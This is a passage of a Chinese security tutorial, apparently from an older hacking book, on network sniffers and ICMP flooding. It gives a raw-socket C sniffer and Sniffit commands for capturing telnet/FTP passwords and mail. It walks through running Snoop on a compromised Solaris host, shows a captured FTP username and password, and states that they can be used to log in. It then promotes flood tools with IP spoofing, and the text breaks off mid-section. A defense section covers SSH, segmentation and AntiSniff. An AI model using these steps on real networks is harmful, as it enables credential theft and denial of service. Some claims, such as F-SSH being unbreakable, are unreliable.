实际上本文中所讲的 Sniffer 指的是软件。它把包抓取下来，然后打开并查看其中的内容，可以得到密码等。Sniffer 只能抓取一个物理网段内的包，就是说，你和监听的目标中间不能有路由或其他屏蔽广播包的设备，这一点很重要。所以，对一般拨号上网的用户来说，是不可能利用 Sniffer 来窃听到其他人的通信内容的。

##### 4. 网络监听的目的

当一个黑客成功地攻陷了一台主机，并拿到了 root 权限，而且还想利用这台主机去攻击同一网段上的其他主机时，他就会在这台主机上安装 Sniffer 软件，对以太网设备上传送的数据包进行侦听，从而发现感兴趣的包。如果发现符合条件的包，就把它存到一个 Log 文件中去。通常设置的这些条件是包含字“username”或“password”的包，这样的包里面通常有黑客感兴趣的密码之类的东西。一旦黑客截获了某台主机的密码，他就会立刻进入这台主机。

如果 Sniffer 运行在路由器上或有路由功能的主机上，就能对大量的数据进行监控，因为所有进出网络的数据包都要经过路由器。

Sniffer 属于第二层次的攻击。就是说，只有在攻击者已经进入了目标系统的情况下，才能使用 Sniffer 这种攻击手段，以便得到更多的信息。

Sniffer 除了能得到口令或用户名外，还能得到更多的其他信息，比如一些重要信息、在网上传送的金融信息等等。Sniffer 几乎能得到任何在以太网上传送的数据包。

Sniffer 是一种比较复杂的攻击手段，一般只有黑客老手才有能力使用它，而对于一个网络新手来说，即使在一台主机上成功地编译并运行了 Sniffer，一般也不会得到什么有用的信息，因为通常网络上的信息流量是相当大的，如果不加选择地接收所有的包，然后从中找到所需要的信息非常困难；而且，如果长时间进行监听，还有可能把放置 Sniffer 的机器的硬盘撑爆。

### 5. 一个简单的Sniffer程序

下面是一个非常简单的 C 程序，它可以完成一般的监听功能，`/* */` 中的内容是本文的注解。

```c
/* 下面是包含进行调用系统和网络函数的头文件 */
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

/* 下面是IP和TCP包头结构 */
struct ip {
    unsigned int   ip_length:4;    /* 定义IP头的长度 */
    unsigned int   ip_version:4;   /* IP版本，ipv4 */
    unsigned char  ip_tos;         /* 服务类型 */
    unsigned short ip_total_length;/* IP数据包的总长度 */
    unsigned short ip_id;          /* 鉴定域 */
    unsigned short ip_flags;       /* IP标志 */
    unsigned char  ip_ttl;         /* IP包的存活期 */
    unsigned char  ip_protocol;    /* IP上层的协议 */
    unsigned short ip_cksum;       /* IP头校验和 */
    unsigned int   ip_source;      /* 源IP地址 */
    unsigned int   ip_dest;        /* 目的IP地址 */
};

struct tcp {
    unsigned short tcp_source_port; /* 定义TCP源端口 */
    unsigned short tcp_dest_port;   /* TCP目的端口 */
    unsigned int   tcp_seqno;       /* TCP序列号 */
    unsigned int   tcp_ackno;       /* 发送者期望的下一个序列号 */
    unsigned int   tcp_res1:4,
                   tcp_hlen:4,
                   tcp_fin:1,
                   tcp_syn:1,
                   tcp_rst:1,
                   tcp_psh:1,
                   tcp_ack:1,
                   tcp_urg:1,
                   tcp_res2:2;
    unsigned short tcp_winsize;     /* 能接收的最大字节数 */
    unsigned short tcp_cksum;       /* TCP校验和 */
    unsigned short tcp_urgent;      /* 紧急事件标志 */
};

/* 主函数 */
int main()
{
    int sock, bytes_received, fromlen;
    char buffer[65535];

    struct sockaddr_in from;                               /* 定义socket结构 */
    struct ip *ip;                                         /* 定义IP和TCP结构 */
    struct tcp *tcp;
    sock = socket(AF_INET, SOCK_RAW, IPPROTO_TCP);
    /* 上面是建立socket连接，第一个参数是地址族类型，用INTERNET类型 */
    /* 第二个参数是socket类型，这里用了SOCK_RAW，它可以绕过传输层 */
    /* 直接访问IP层的包。为了调用SOCK_RAW，需要有root权限 */
    /* 第三个参数是协议，选IPPROTO_TCP指定了接收TCP层的内容 */
    while(1)                                              /* 建立一个死循环，不停地接收网络信息 */
    {
        fromlen = sizeof from;
        bytes_received = recvfrom(sock, buffer, sizeof buffer, 0, (struct sockaddr *)&from, &fromlen);
        /* 上面这个函数是从建立的socket连接中接收数据 */
        /* 因为recvfrom()需要一个sockaddr数据类型，所以我们用了一个强制类型转换 */
        printf("\nBytes received : %5d\n", bytes_received);         /* 显示出接收的数据字节数 */
        printf("Source address : %s\n", inet_ntoa(from.sin_addr));  /* 显示出源地址 */
        ip = (struct ip *)buffer;                                     /* 把接收的数据转化为我们预先定义的结构，便于查看 */
        printf("IP header length : %d\n", ip->ip_length);           /* 显示IP头的长度 */
        printf("Protocol : %d\n", ip->ip_protocol);                 /* 显示协议类型，6是TCP，17是UDP */
        tcp = (struct tcp *)(buffer + (4*ip->ip_length));
        /* 上面这句需要详细解释一下，因为接收到的包头数据中，IP头的大小是固定的4字节 */
        /* 所以我们用IP长度乘以4，指向TCP头部分 */
        printf("Source port : %d\n", ntohs(tcp->tcp_source_port));  /* 显示出源端口 */
        printf("Dest port : %d\n", ntohs(tcp->tcp_dest_port));      /* 显示出目标端口 */
    }
}
```

以上这个 C 程序是为了说明 Sniffer 的接收原理而列举的一个最简单的例子，它只是完成了 Sniffer 的接收功能。在运行它之前，我们还需要手工把网卡设为混杂模式，在 root 权限下用如下命令设置：

```bash
ifconfig eth0 promisc
```

假设 eth0 是你的以太网设备接口，然后运行编译好的程序，就可以看到接收的数据包了。这个程序虽然简单，但是它说明了 Sniffer 的基本原理，就是先把网卡设备设为混杂模式，然后直接接收 IP 层的数据。

当然这个程序的功能也太简单，只能显示源地址、目标地址和源端口、目标端口等极为简单的信息，这对于黑客来说是没有什么用处的，黑客要的是密码之类的信息，这可以使用一些免费的 Sniffer 程序来完成。

### 二、免费的Sniffer——Sniffit

Sniffit 是由 Lawrence Berkeley Laboratory 开发的可以在 Linux、Solaris、SGI、NT 等各种平台运行的网络监听软件，它主要针对 TCP/IP 协议的不安全性，对运行该协议的机器进行监听。和所有的 Sniffer 一样，数据包必须经过运行 Sniffit 的机器才能被监听，因此，Sniffit 只能监听同一个网段上的机器。

由于 Sniffit 安装简便、功能强大，目前已成为黑客在 UNIX 中的首选 Sniffer。在对网上一些被入侵的主机进行安全检测时，经常发现相当多的被入侵主机已经被黑客安装了 Sniffit。

Sniffit 的另一特点是能够自由地为其增加某些插件以实现额外功能，这在后面会专门介绍。

- 1. 安装
- 1. 用 `tar zvfx sniffit.*.*.*.tgz` 将下载的 `sniffit.*.*.*.tgz` 解压缩到你想要的目的文件夹，如果版本是 `0.3.7` 的话，你会看到该目录下出现一个 `Sniffit.0.3.7` 的目录。
- 2. 打开 `Sniffit.0.3.7` 目录。
- 3. 执行 `./configure && make` 命令，只要在这个过程中终端上没有意外的错误信息出现，就算编译成功了——可以得到一个二进制的 Sniffit 文件，直接运行它即可。
- 4. 最后用 `make clean` 命令清除掉临时文件。

### 2. 使用方法

Sniffit 有如下一些命令选项：

| 选项 | 说明 |
|---|---|
| `-v` | 显示版本信息 |
| `-t <ip nr/name>` | 让程序去监听指定流向某 IP 的数据包 |
| `-s <ip nr/name>` | 让程序去监听从某 IP 流出的 IP 数据包，可使用 `@` 通配符 |
| `-i` | 显示出窗口界面，能查看当前在所属网络上进行连接的机器 |
| `-I` | 扩展的交互模式，忽略所有其他选项 |
| `-c <file>` | 利用脚本来运行程序 |
| `-F <device>` | 强制使程序使用网络设备 |
| `-n` | 显示出假的数据包（如 ARP、RARP 或其他非 IP 数据包） |
| `-N` | 只运行 plugin 时的选项，使其他选项失效 |

下面是在 `-i` 模式下无法工作的参数：

| 选项 | 说明 |
|---|---|
| `-b` | 同时做 `-t` 和 `-s` 的工作 |
| `-d` | 将监听所得内容显示在当前终端（十六进制） |
| `-a` | 将监听所得内容显示在当前终端（ASCII 字符） |
| `-x` | 打印 TCP 包扩展信息（SEQ、ACK、Flags），可与 `-a`、`-d`、`-s`、`-t`、`-b` 配合 |
| `-R <file>` | 将所有通信记录在文件中 |
| `-r <file>` | 将记录文件送往 Sniffit（需配合 `-F` 指定设备） |
| `-P <protocol>` | 定义监听协议，默认为 TCP，也可选 IP/ICMP/UDP |
| `-p <port>` | 定义监听端口，默认为全部 |
| `-l <length>` | 设定数据包大小，默认 300 字节 |
| `-M <plugin>` | 激活插件 |

还有一些在 `-I`、`-i` 模式下使用的参数：

| 选项 | 说明 |
|---|---|
| `-D <device>` | 所有的记录会被送到这个磁盘上 |

在 `-c` 模式下使用的参数：

| 选项 | 说明 |
|---|---|
| `-L <logparam>` | 其中 `logparam` 可以是如下内容：`raw`（轻度）、`norm`（常规）、`telnet`（记录口令，端口23）、`ftp`（记录口令，端口21）、`mail`（记录信件内容，端口25） |这些参数可以组合使用，如 telnet、ftp、mail、norm 等。

###### （1）图形仿真界面

用上面提到的一些选项，可以进入图形界面的 Sniffit，即直接输入 `sniffit -i`，就会出现一个窗口环境，从中可以看到自己所在的网络中有哪些机器正在连接、使用什么端口号。其中可用的命令如下：

- G：产生数据包，正常情况下只有 UDP 协议才会产生，执行此命令要回答一些关于数据包的问题。
- N：产生一个小窗口，包括 TCP、IP、ICMP、UDP 等协议的流量。
- R：刷新屏幕，重新显示正在连接的机器。
- Q：退出窗口环境，结束程序。
- F1：改变来源网域的 IP 地址，默认为全部。
- F2：改变目的网域的 IP 地址，默认为全部。
- F3：改变来源机器的端口号，默认为全部。
- F4：改变目的机器的端口号，默认为全部。

###### （2）使用示例

假设在一个子网中有两台主机，一台运行了 Sniffit，为 sniffit.com，另一台的 IP 地址是 66.66.66.7，我们称之为 target.com，按下列步骤操作：

- 1. 检查 Sniffer 是否能运行：

```bash
sniffit:~/# sniffit -d -p 7 -t 66.66.66.7
```

并且打开另一个窗口：

```bash
sniffit:~/$ telnet target.com 7
```

应该可以看到 Sniffit 将远程登录到对方 7 号端口 echo 服务的包捕获了。

- 2. 截获 target.com 上的用户密码：

```bash
sniffit:~/# sniffit -p 23 -t 66.66.66.7
```

意思是只监听 TELNET（23）端口的包。

- 3. 如果 target.com 主机的根用户声称有陌生的 FTP 连接并且希望记录其动作：

```bash
sniffit:~/# sniffit -p 21 -l 0 -t 66.66.66.7
```

- 4. 阅读所有进出 target.com 的信件：

```bash
sniffit:~/# sniffit -p 25 -l 0 -b -t 66.66.66.7 &
或者
sniffit:~/# sniffit -p 25 -l 0 -b -s 66.66.66.7 &
```

- 5. 有错误发生时截获控制信息：

```bash
sniffit:~/# sniffit -p icmp -b -s 66.66.66.7
```

- 6. 监听所有从 66.66.66.7 送出的包，对其进行完全监视：

```bash
sniffit:~/# sniffit -P ipicmptcp -p 0 -b -a -d -x -s 66.66.66.7
```

- 7. 用 `more 66*` 命令读取用下列方式记录的密码：

```bash
sniffit:~/# sniffit -p 23 -A . -t 66.66.66.7
或者
sniffit:~/# sniffit -p 23 -A ^ -t dummy.net
```

###### （3）高级应用

### 1. 用脚本执行

这是配合选项 `-c` 的，其执行方法也很简单，比如以下列方式编辑一个叫 sh 的文件：

```bash
select from host 180.180.180.1
select to host 180.180.180.10
select both port 21
```

然后执行：`sniffit -c sh`

说明：监听从 180.180.180.1 送往 180.180.180.10 的数据包，端口为 FTP 口。

### 2. 插件

要获取一个插件是很简单的，只需将它放入 Sniffit 的目录下，并且用如下方式编辑 `sn_plugin.h` 文件：

```c
#define PLUGIN1_NAME "My plugin"
#define PLUGIN1(x) main_plugin_function(x)
#include "my_plugin.plug"
```

其中：

- 1）可以让 plugin 从 0～9，所以从 `PLUGIN0_NAME` 到 `PLUGIN1_NAME`……不必是连续的。
- 2）`#include "my_plugin.plug"`，这是自己的插件源代码放置的地方。

## 3. 插件 TOD

TOD 是 Sniffit 最有名的一个插件，TOD 是 Touch Of Death 的缩写，因为它可以轻易地切断一个 TCP 连接。其原理是向一个 TCP 连接中的一台主机发送一个断开连接的 IP 包，将这个 IP 包的 RST 位置设为 1，便可以了。

安装 TOD 需要将下载的 `tod.tar.gz` 拷贝到 Sniffit 所在目录下，解压安装后，用 `ln -s tod sniffit_key5` 命令将这个程序与 F5 键连接起来，想切断哪台机器的话，只要在窗口中将光标指到需要断线的机器上并按下 F5 键。当然，你也可以自由地定义成其他的 F 功能键，但是 F1 到 F4 不行，因为它们已经被定义过了。

## 4. Sniffit 的 NT 版本

Sniffit 0.3.7 推出了 NT 版本，同时也支持 Windows 2000。安装 NT 版的 Sniffit 需要 WinPcap 包，这是一个与 libpcap 类似的包，支持 Win32 平台，可以进行信息包捕获和网络分析，是基于 Unix 的 libpcap 和 BPF（Berkeley 包过滤器）模型的包。它包括内核级的包过滤驱动程序、低级动态链接库（Packet.dll）和高级系统无关性库（libpcap，基于 0.4a6 版本）。

这个 WinPcap 信息包捕获启动程序，可把设备驱动增加在 Windows 95、Windows 98、Windows NT 和 Windows 2000 上；可以捕获和发送通过原始套接字口的信息包（raw packets），Packet.dll 是一个能用来直接访问 BPF 驱动程序的 API，可以从网上找到。

下面是 Sniffit 在 NT 中的安装步骤：

- 1）下载 Packet.exe 程序后开始安装。
- 2）打开控制面板，双击“网络和拨号连接”图标，再打开“本地连接”图标，并选择“属性”选项。
- 3）在显示的对话框中选择“安装”，安装网络组件。
- 4）在出现的对话框中选择“协议”，单击“增加”。
- 5）在出现的对话框中选择“从磁盘安装”，选择正确路径，就是刚才解压的网络设备驱动程序（这个文件夹中必须包含 Packet.inf 和 packet.sys）的地方，再选择“确定”。
- 6）选择“Packet capture Driver v X.XX”，并按照指示完成安装，这一步骤需要将 NT 系统盘放入光驱。
- 7）查看网络组件中有没有 “Packet capture Driver v X.XX” 这一行，有的话说明这个驱动程序已经建立并绑定了网络接口。
- 8）重新启动计算机。
- 9）解压 sniffit_nt.0.3.7.beta，就可以直接使用了，具体使用方法和前面讲过的 Unix 版 Sniffit 一样。

## 二、Sniffer攻击实例

下面我们来看一个使用 Sniffer 进行被动攻击的实例了。假设我们已经通过某种方法成功地攻入了 Solaris 主机 202.11.22.33（本文隐藏了实际 IP 地址，下同）并且获得这台主机上的最高 root 权限。那么，现在我们就可以在这台主机上使用 Sniffer 来嗅探此网段上传输的密码。

##### 1. Snoop 简介

在 Solaris 系统中有一个默认安装的 Sniffer 软件叫做 Snoop，所以没有必要重新安装其他的 Sniffer 了，可以直接使用 Snoop 来进行嗅探。下面简要介绍一下 Snoop 的使用方法。

Snoop 是一个命令行的软件，它的使用方法为：`snoop [选项] [过滤条件]`

其中选项包括：

```bash
[ -a ] # 在 audio 上监听
[ -d device ] # 设置监听设备
[ -s snaplen ] # 将包截短
[ -c count ] # 设置捕获包的数量
[ -P ] # 关闭混杂模式
[ -D ] # 报告掉包
[ -S ] # 报告包大小
[ -i file ] # 从文件读入记录
[ -o file ] # 把捕获情况存入文件
[ -n file ] # 从文件读入域名表
[ -N ] # 创建域名表
[ -t r|a|d ] # 设置时间，可以为相对或绝对时间
[ -v ] # 详细的包信息显示
[ -V ] # 显示所有包信息
[ -p first[,last] ] # 显示指定的包
[ -x offset[,length] ] # 显示16进制数据
[ -C ] # 显示包过滤码
```

其中最常用的选项是 `-o` 和 `-c`，通过 `-o` 选项可以把捕获情况输出到一个文件中，否则会显示在屏幕上。通过 `-c` 可以设置要捕获包的数量，否则就会无限制地捕获传输的包。

Snoop 的重点在于设置过滤条件，所谓过滤条件就是我们要捕获什么样的包，因为以太网上传输的数据量一般是相当大的，所以不能捕获所有传输的包，否则会无法找到我们要的信息，于是我们就设置一个过滤条件，只捕获我们要的包，例如含有密码的包。

过滤条件主要包括 from、to、net 和 port。其中 from 是指从特定主机发送过来的包，to 是指发送到特定主机的包，net 是来自或发往特定网络的包，port 是指来自或发往特定端口的包。这些过滤条件可以通过 and（且关系）、or（或关系）和 not（非关系）来进行组合。例如，下面 Snoop 命令捕获所有来自 192.168.3.12 地址的 DNS 和 NFS 包：

```bash
snoop from 192.168.3.12 port domain or rpc nfs
```

##### 2. Snoop 攻击实例

假设我们已经通过某种方法成功地攻入了 Solaris 主机 202.11.22.33（本文隐藏了实际 IP 地址，下同）并且获得这台主机上的最高 root 权限。那么现在我们就可以在这台主机上使用 Snoop 来嗅探此网段上传输的密码。

首先我们使用 find 命令查找一下此主机上的 Snoop 安装在哪里：

```bash
#find / -name snoop -print
/usr/sbin/snoop
```

因为我们的目的是捕获网络上传输的密码，所以我们要设置 Snoop 的过滤选项来捕获网络上所有的 telnet 和 ftp 包，使用下面的命令：

```bash
#nohup /usr/sbin/snoop -o slog -c 10000 port telnet or port ftp&
```

我们使用 nohup 和 & 来把 Snoop 挂在后台运行，这样，当我们从终端退出的时候，Snoop 仍然可以在后台运行。并且我们使用 `-o` 把嗅探结果保存在文件 slog 里，使用 `-c` 选项来设置一共捕获 10000 个包，以免捕获数据量太大而占据硬盘空间。`port telnet or ftp` 就是过滤选项，它设置只捕获 Telnet 和 FTP 包，因为这两种协议都使用密码验证而且密码不加密。

然后我们就可以退出登录，第二天再次登录上这台主机，可以看到当前目录下有一个 slog 文件，这就是嗅探结果。但是要注意这个文件不是文本文件，不能使用 cat 命令直接查看，必须用 Snoop 的 `-i` 选项来查看，使用如下命令：

```bash
#/usr/sbin/snoop -i slog | more
```

这里，我们使用 more 来一点一点查看，发现输出中有以下片段：

```text
gj-12-107.bta.net.cn -> 202.11.22.68 FTP C port=1924
202.11.22.68 -> gj-12-107.bta.net.cn FTP R port=1924
...
gj-12-107.bta.net.cn -> 202.11.22.68 FTP C port=1924 USER bode\r\n
202.11.22.68 -> gj-12-107.bta.net.cn FTP R port=1924 331 Password require
...
gj-12-107.bta.net.cn -> 202.11.22.68 FTP C port=1924 PASS zhangjm\r\n
202.11.22.68 -> gj-12-107.bta.net.cn FTP R port=1924 230 User bode logged
```

通过上面的记录我们可以看到，来自 gj-12-107.bta.net.cn 的用户使用 FTP 登录上了 202.11.22.68 主机，它使用的用户名为 bode，密码为 zhangjm。于是我们就可以使用这个用户名和密码来登录上 202.11.22.68 了。

## 四、如何防御Sniffer攻击

##### 1. 怎样发现 Sniffer

Sniffer 最大的危险性就是它很难被发现，在单机情况下发现一个 Sniffer 还是比较容易的，可以通过查看计算机上当前正在运行的所有程序来实现，当然这不一定可靠。

在 UNIX 系统下可以使用下面的命令：`ps-aux`。这个命令列出当前的所有进程、启动这些进程的用户、它们占用 CPU 的时间以及占用多少内存等等。

在 Windows 系统下，可以按下 Ctrl+Alt+Del 键，查看任务列表。不过，编程技巧高的 Sniffer 即使正在运行，也不会出现在这里。

另一个方法就是在系统中搜索，查找可怀疑的文件。但入侵者用的可能是他们自己写的程序，所以这给发现 Sniffer 造成相当大的困难。还有许多工具能用来看看你的系统会不会处于混杂模式，从而发现是否有一个 Sniffer 正在运行。

但在网络情况下要检测出哪一台主机正在运行 Sniffer 是非常困难的，因为 Sniffer 是一种被动攻击软件，它并不对任何主机发出数据包，而只是静静地运行着，等待着要捕获的数据包经过。

##### 2. 抵御 Sniffer

虽然发现一个 Sniffer 是非常困难的，但是我们仍然有办法抵御 Sniffer 的嗅探攻击。既然 Sniffer 要捕获我们的机密信息，那我们干脆就让它捕获，但事先要对这些信息进行加密，黑客即使捕捉到了我们的机密信息，也无法解密，这样，Sniffer 就失去了作用。

黑客主要用 Sniffer 来捕获 Telnet、FTP、POP3 等数据包，因为这些协议以明文在网上传输，我们可以使用一种叫做 SSH 的安全协议来替代 Telnet 等容易被 Sniffer 攻击的协议。

SSH 又叫 Secure Shell，它是一个在应用程序中提供安全通信的协议，建立在客户/服务器模型上。SSH 服务端分配的端口是 22，连接是通过使用一种来自 RSA 的算法建立的。在授权完成后，接下来的通信数据用 IDEA 技术来加密。这种加密方法通常是比较强的，适合于任何非秘密和非经典的通信。

SSH 后来发展成为 F-SSH，提供了高层次的、军方级别的对通信过程的加密。它为通过 TCP/IP 的网络通信提供了通用的最强的加密。如果某个站点使用 F-SSH，用户名和口令就不再重要了。目前，还没有人突破过这种加密方法。即使是 Sniffer，收集到的信息将不再有价值。有兴趣的读者可以参考与 SSH 相关的书籍。

另一种抵御 Sniffer 攻击的方法是使用安全的拓扑结构。因为 Sniffer 只对以太网、令牌环网等网络起作用，所以尽量使用交换设备的网络可以从最大程度上防止被 Sniffer 窃听到不属于自己的数据包。还有一个原则用于防止 Sniffer 的被动攻击：一个网络段必须有足够的理由才能信任另一网络段。网络段应该从考虑具体的数据之间的信任关系上来设计，而不是从硬件需要上设计。一个网络段仅由能互相信任的计算机组成。通常它们在同一个房间里，或在同一个办公室里，应该固定在建筑的某一部分。注意每台机器是通过硬连接线接到集线器（Hub）的，集线器再接到交换机上。由于网络分段了，数据包只能在这个网段上被捕获，其余的网段将不可能被监听。

所有的问题都归结到信任上面。计算机为了和其他计算机进行通信，它就必须信任那台计算机。系统管理员的工作就是决定一个方法，使得计算机之间的信任关系很小。这样，就建立了一种框架，告诉你什么时候放置了一个 Sniffer，它放在哪里，是谁放的等等。

如果局域网要和 Internet 相连，仅仅使用防火墙是不够的。入侵者已经能从一个防火墙后面扫描，并探测正在运行的服务。应该关心的是一旦入侵者进入系统，他能得到些什么。你必须考虑一条这样的路径，即信任关系有多长。举个例子，假设你的 Web 服务器对计算机 A 是信任的，那么有多少计算机是 A 信任的呢？又有多少计算机是受这些计算机信任的呢？一句话，就是确定最小信任关系的那台计算机。在信任关系中，这台计算机之前的任何一台计算机都可能对你的计算机进行攻击并成功。你的任务就是保证一旦出现 Sniffer，它只对最小范围有效。

Sniffer 往往是在攻击者侵入系统后使用的，用来收集有用的信息。因此，防止系统被突破很关键。系统安全管理员要定期地对所管理的网络进行安全测试，防止安全隐患。同时要控制拥有相当权限的用户的数量，因为许多攻击往往来自网络内部。

##### 3. 防止 Sniffer 的工具 AntiSniff

AntiSniff 是由著名黑客组织（现在是安全公司了）L0pht 开发的工具，用于检测本地网络是否有机器处于混杂模式（即监听模式）。

一台处于混杂模式的机器意味着它很可能已被入侵并被安装了 Sniffer。对于网络管理员来说，了解哪台机器正处于混杂模式以作进一步的调查研究是非常重要的。

AntiSniff 1.X 版运行在以太网的 Windows NT 系统中，并提供了简单易用的用户图形界面。该工具以多种方式测试远程系统是否正在捕捉和分析那些并不是发送给它的数据包。这些测试方法与其操作系统本身无关。

AntiSniff 运行在本地以太网的一个网段上。如果在非交换式的 C 类网络中运行，AntiSniff 能监听整个网络；如果网络交换机按照工作组来隔离，则每个工作组中都需要运行一个 AntiSniff。原因是某些特殊的测试使用了无效的以太网地址，另外某些测试需要进行混杂模式下的统计（如响应时间、包丢失率等）。

AntiSniff 的用法非常简便，在工具的图形界面中选择需要进行检查的机器，并且指定检查频率。对于除网络响应时间检查外的测试，每一台机器会返回一个确定的正值或负值。返回的正值表示该机器正处于混杂模式，这就有可能已经被安装了 Sniffer。

对于网络响应时间测试的返回值，建议根据第一次返回的数值计算标准值，然后再对在 flood 和非 flood 两次测试时返回的结果有较大变化的机器进行检查。一旦这些机器退出混杂模式返回到正常操作模式下，AntiSniff 的下一次测试将会记录到混杂模式和非混杂模式的差值（正值）。

应该周期性地运行 AntiSniff，具体周期值根据不同的站点、不同的网络负荷、测试的机器数量和网站策略等而有所不同。

## 5.3 浅析ICMP洪水攻击

## 一、什么是ICMP协议

ICMP 全称 Internet Control Message Protocol（网际控制信息协议）。提起 ICMP，一些人可能会感到陌生，实际上，ICMP 与我们息息相关。在网络体系结构的各层次中，都需要控制，而不同的层次有不同的分工和控制内容，IP 层的控制功能是最复杂的，主要负责差错控制、拥塞控制等。任何控制都是建立在信息的基础之上的，在基于 IP 数据报的网络体系中，网关必须自己处理数据报的传输工作，而 IP 协议自身没有内在机制来获取差错信息并处理。为了处理这些错误，TCP/IP 设计了 ICMP 协议，当某个网关发现传输错误时，立即向信源主机发送 ICMP 报文，报告出错信息，让信源主机采取相应处理措施。它是一种差错和控制报文协议，不仅用于传输差错报文，还传输控制报文。

## 二、ICMP报文格式

ICMP 报文包含在 IP 数据报中，属于 IP 的一个用户，IP 头部就在 ICMP 报文的前面，所以一个 ICMP 报文包括 IP 头部、ICMP 头部和 ICMP 报文（见表1）。IP 头部的 Protocol 值为 1 就说明这是一个 ICMP 报文，ICMP 头部中的类型（Type）域用于说明 ICMP 报文的作用及格式，此外还有一个代码（Code）域用于详细说明某种 ICMP 报文的类型，所有数据都在 ICMP 头部后面。RFC 定义了 13 种 ICMP 报文格式，如表1所示。

| 类型代码 | 类型描述 |
|---|---|
| 0 | 响应应答（ECHO-REPLY） |
| 3 | 不可到达 |
| 4 | 源抑制 |
| 5 | 重定向 |
| 8 | 响应请求（ECHO-REQUEST） |
| 11 | 超时 |
| 12 | 参数失灵 |

- 13 时间戳请求  
- 14 时间戳应答  
- 15 信息请求（*已作废）  
- 16 信息应答（*已作废）  
- 17 地址掩码请求  
- 18 地址掩码应答  

其中代码为 15、16 的信息报文已经作废。

##### 1. 响应请求

我们日常使用最多的 Ping，就是响应请求（Type=8）和应答（Type=0）。一台主机向一个节点发送一个 Type=8 的 ICMP 报文，如果途中没有异常（例如被路由器丢弃、目标不回应 ICMP 或传输失败），则目标返回 Type=0 的 ICMP 报文，说明这台主机存在。更详细的 Tracert 通过计算 ICMP 报文通过的节点来确定主机与目标之间的网络距离。

##### 2. 目标不可到达、源抑制和超时报文

这 3 种报文的格式是一样的。目标不可到达报文（Type=3）在路由器或主机不能传递数据报时使用。例如，我们要连接对方一个不存在的系统端口（端口号小于 1024）时，将返回 Type=3、Code=3 的 ICMP 报文，它要告诉我们：“嘿，别连接了，我不在家的！”常见的不可到达类型还有网络不可到达（Code=0）、主机不可到达（Code=1）、协议不可到达（Code=2）等。源抑制则充当一个控制流量的角色，它通知主机减少数据报流量。由于 ICMP 没有恢复传输的报文，所以只要停止发报文，主机就会逐渐恢复传输速率。最后，无连接方式网络的问题就是数据报会丢失，或者长时间在网络游荡而找不到目标，或者拥塞导致主机在规定时间内无法重组数据报分段，这时就要触发 ICMP 超时报文的产生。超时报文的代码域有两种取值：Code=0 表示传输超时，Code=1 表示重组分段超时。

##### 3. 时间戳

时间戳请求报文（Type=13）和时间戳应答报文（Type=14）用于测试两台主机之间数据报来回一次的传输时间。传输时，主机填充原始时间戳，接收方收到请求后填充接收时间戳，再以 Type=14 的报文格式返回，发送方计算这个时间差。一些系统不响应这种报文。

#### 三、这样的攻击有效吗

在前面讲过了，Ping 使用的是 ECHO 应答。不知道大家注意过没有，Ping 的返回很慢，用 NetXRAY 抓包仅为 1~5 包/秒，这是为什么呢？事实上，ICMP 本身并不慢（由于 ICMP 是 SOCK_RAW 产生的原始报文，速度比 SOCK_STREAM 的 SYN 和 SOCK_DGRAM 的 UDP 要快几乎 10 倍），这样的速度是 Ping 程序故意延迟的。同样，我测试过一些号称“Ping 洪水”的程序，发现它们的效率和 ping.exe 没什么两样。经过 Dependency Walker 查看程序调用的函数发现，它们用的是 icmp.dll 提供的 IcmpSendEcho 这个 API，这个函数是计算 ECHO 时间的，速度当然慢！

#### 四、什么是 ICMP 洪水

##### 1. ICMP 洪水的成因

ping.exe 和 IcmpSendEcho 速度慢的另一个原因是它们必须等待目标主机返回 Reply 信息，这个过程需要花费大量时间。而 flood——洪水，顾名思义，是速度极快的。当一个程序发送数据包的速度达到了每秒 1000 个以上，它的性质就成了洪水产生器。洪水数据是从洪水产生器里出来的，但这样还不够，没有足够的带宽，再猛的洪水也只能像公路塞车那样慢慢移动，成了鸡肋。要做真正的洪水，就需要有一条足够宽的高速公路才可以。极慢的发送速度 + 56Kbps 小猫等于什么？等于一个未关紧的水龙头，根本没用。由于 ping.exe 无法提速，这就需要专门的工具来做洪水了。足够快的数据包速度 + 足够的带宽，这才是洪水。

##### 2. 实现 ICMP 洪水的前提

实现 ICMP 洪水的最大前提是攻击者的速度！如果你要用 56K 拨号去攻击一个 512Kbps ADSL 用户，后果和一只蚂蚁伸腿想绊倒大象的天方夜谭是一样的！其次是你的机器运行速度和数据吞吐量。由于涉及 IP 校验和的计算（先设置头校验和域的数值为 0，然后对整个数据报头按每 16 位求和，再把结果取反，就得到了校验和），如果数据处理能力不够，在这步就慢了一个级别，效果当然大打折扣。最后就是目标机器的带宽！如果对方比你大很多（例如你 2M ADSL，别人用 DDN 或 T1），那么任何 Flood 都是无病呻吟，挠痒都不够！

还有一个许多人都忽略的问题：发送的速度与数据包大小成反比，而且太大的数据包会被路由器等设备过滤掉！找到一个合适的数据包，对提高 Flood 的效率有很大帮助！

##### 3. 洪水——两败俱伤的攻击方式

别以为洪水无所不能。实际上，你展开洪水攻击时，攻击程序在消耗对方带宽和资源时，也在消耗你的带宽和资源。这只是个看谁撑得住的攻击而已。实际上，有经验的攻击者都是用被控制的服务器（肉鸡）来代替自己的机器发动攻击的。不到万不得已，或者你对自己的机器网速绝对有自信，否则尽量少用自己的机器来拼搏！

#### 五、不同方式的 ICMP 洪水

##### 1. 直接 Flood

直接 Flood 的首要条件是你的带宽够，然后就是要一个好用的 ICMP Flooder，别用 ping.exe 那种探路用的垃圾。例如，我以前发布的 AnGryPing，发包速度达到 6000~9000 包/秒（512 Kbps ADSL），默认是 32 bytes 的 ECHO 报文洪水。用它即使不能 Flood 别人下去，防火墙也叫得够惨的了。直接攻击会暴露自己的 IP（如果对方没有还击能力那还无所谓，固定 IP 用户不推荐使用这种 Flood）。直接 Flood 主要是为了顾及 Win9x/Me 不能伪造 IP 的缺陷，否则一般还是别用为妙。

简单示意图如下：

```text
ICMP

攻击者[IP=211.97.54.3]------------>受害者[截获攻击者IP=211.97.54.3]==>挨IP回来攻击
```

##### 2. 伪造 IP 的 Flood

如果你是 Win2000/XP，并且是 Administrator 权限，可以试试看 FakePing，它能随意伪造一个 IP 来 Flood，让对方摸不到头脑，属于比较隐蔽阴险的 Flood。

简单示意图如下：

```text
伪造IP=1.1.1.1的ICMP

攻击者[IP=211.97.54.3]------------------------>受害者[截获攻击者IP=1.1.1.1]==>找死
```

##### 3. 反射

